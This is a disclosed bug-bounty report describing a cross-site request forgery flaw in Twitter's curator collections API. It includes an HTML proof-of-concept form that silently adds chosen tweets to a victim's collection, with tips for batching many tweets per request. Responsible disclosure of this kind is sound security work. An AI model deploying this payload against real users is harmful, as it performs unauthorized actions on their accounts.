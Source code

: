 # Add tweet to collection CSRF 

## Report Details
- **Report ID**: 100820
- **URL**: https://hackerone.com/reports/100820
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-11-21T09:39:00.270Z
- **Disclosed**: 2016-08-22T18:54:18.564Z

## Reporter
- **Username**: indoappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi Team,

I have found a CSRF vulnerability which force victim to add tweets in his collection.

HTML POC : 

<html>
<body>
<form action="https://curator.twitter.com/api/collections/STREAM/content" method="POST">
<input type="hidden" name="tweet_ids[]" value="667977435124658176">
<input type="hidden" name="collections[]" value="667916850294951936">
<input type="hidden" name="model[id]" value="STREAM">
<input type=submit>
</body>
</html>

Before using this POC change the Collection ID to your collection ID and you will see that tweet will be added into your collection.You can Also add so many tweets in one request by adding "tweet_ids" parameter multiple times.

Let me know if you need any other help from my side.

Best Regards !
Vijay Kumar 

## Attachments
No attachments
